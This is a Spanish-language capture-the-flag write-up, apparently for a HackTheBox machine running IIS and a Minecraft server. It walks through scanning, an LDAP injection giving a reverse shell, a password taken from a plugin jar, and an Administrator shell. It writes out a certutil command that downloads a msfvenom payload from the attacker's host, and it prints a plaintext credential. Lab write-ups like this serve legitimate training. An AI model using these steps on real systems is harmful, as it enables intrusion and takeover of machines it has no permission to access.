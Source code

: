 ### Ping 
```python
ping -c 1 10.10.11.249
PING 10.10.11.249 (10.10.11.249) 56(84) bytes of data.
64 bytes from 10.10.11.249: icmp_seq=1 ttl=127 time=235 ms

--- 10.10.11.249 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 235.207/235.207/235.207/0.000 ms
```

### TTL 127= Wondows
### nmap
```python
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-10 22:17 EST
Stats: 0:00:39 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 73.53% done; ETC: 22:18 (0:00:14 remaining)
Nmap scan report for 10.10.11.249
Host is up (0.097s latency).
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE   VERSION
80/tcp    open  http      Microsoft IIS httpd 10.0
|_http-title: Did not follow redirect to http://crafty.htb
|_http-server-header: Microsoft-IIS/10.0
10.10.11.249:25565/tcp open  minecraft Minecraft 1.16.5 (Protocol: 127, Message: Crafty Server, Users: 3/100)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Ports: 80/http - 25565/tcp

### Enumeración del puerto 80

agregamos el subdominio al que nos esta redirigiendo en el /etc/host

![[Pasted image 20240210232547.png]]

pagina web/ tenemos lo que parece ser un subdominio diferente llamdo play.crafty.htb

![[Pasted image 20240210233121.png]]

### Fuzzing con gobuster

![[Pasted image 20240210234241.png]]

### Tlauncher
debido a que tenemos un servidor de minecraft usaremos tlauncher para conectarnos

![[Pasted image 20240305171536.png]]

### Enumeracion del servidor 
con una pequeña busqyeda encontramos que esta version es vulnerable a una inyeccion de ldap

![[Pasted image 20240305191518.png]]

tenemos esta Poc que nos sera muy util

![[Pasted image 20240305191624.png]]
para ejecutar esto necesitamos Java JDK

### pyCraft
usaremos pycraft para hacer la inyección ldap al servidor

![[Pasted image 20240305192830.png]]

### Poc
"debemos editar el exploit para que ejecute una cmd.exe.... perfecto tenemos conexión y estamos redirigiendo el trafico al puerto 9001

![[Pasted image 20240305192930.png]]

### Redireccionamiento de puerto
estaremos a la escucha por el 9001 donde estaremos redireccionando la inyecccion ldap

![[Pasted image 20240305193720.png]]

### star.py
el script star.py no solicita el nombre de usuario para la segunda opcion nos pide dejarlo en blanco para el modo offline y nos solicita el host+port donde esta corriendo el servidor de minecraft

![[Pasted image 20240305193141.png]]

### Recibimos conexión 

![[Pasted image 20240305193218.png]]

### Escalada De privilegios
en el directorio de plugins hemos conseguido uno que parece interesante. 

![[Pasted image 20240305195827.png]]

### Transferencia de archivo
vamos a enviarnos este archivo a nuestra maquina atacante para poder analizarlo

![[Pasted image 20240305220312.png]]

![[Pasted image 20240305220343.png]]

### impacket-smbserver
usaremos impacket-smbserver para crear un servidor compartido 
![[Pasted image 20240305222529.png]]

copiamos el archivo especificando la ip y el directorio donde esta corriendo el servidor

![[Pasted image 20240305222609.png]]

### analizando el archivo
usaremos jar para extraer la informacion del archivo

![[Pasted image 20240305224247.png]]

tenemos una estructura de archivos bien organizada lo que parece ser un archivo.jar completo
### JD-GUI
usaremos jd-gui para poder leer este archivo.jar

![[Pasted image 20240305225321.png]]
tenemos lo que parece ser unas credenciales

```python
$SecPass = ConvertTo-SecureStrings 's67u84zKq8IXw' -AsPlainText -Force
```

### msfvenom
creamos un payload con msfvenom y lo moveremos a la ruta /var/www/html
![[Pasted image 20240307210028.png]]

### msfconsole
usaremos el multi/handler
![[Pasted image 20240307203956.png]]

### multi/handler
estaremos escuchando con el multi/handler para intentar conserguir una reverse shell
![[Pasted image 20240307210748.png]]

### http.server
creamos un servidor para poder compartir el archivo
![[Pasted image 20240307210833.png]]

### transferencia de archivo
subiremos el payload a la maquina victima usando el comando 
```python
	certutil -urlcache -f http://<tun0 IP>:4245/expl.exe %temp%/expl.exe
```

![[Pasted image 20240307211011.png]]

ejecutamos el payload
![[Pasted image 20240307211305.png]]

### multi/handler
recibimos conexión en el multi/handler
![[Pasted image 20240307211356.png]]

### vamos a la ruta  c:\users\svc_minecraft\server\logs 
aqui subiremos un nuevo payload con msfvenom como hicimos anteriormente pero en un puerto diferente y tambien vamos a subir el archivo RunasCs.exe
(https://github.com/antonioCoco/RunasCs/releases?source=post_page-----316a735a306d--------------------------------)
![[Pasted image 20240307212411.png]]
una ves que tenemos el payload y el RunasCs.exe estaremos a la escucha y ejecutamos .\RunasCs.exe Administrator s67....... expl3.exe

![[Pasted image 20240307223811.png]]

### Runas.Cs.exe Administrator shell

![[Pasted image 20240307224010.png]]

### WE ARE ROOT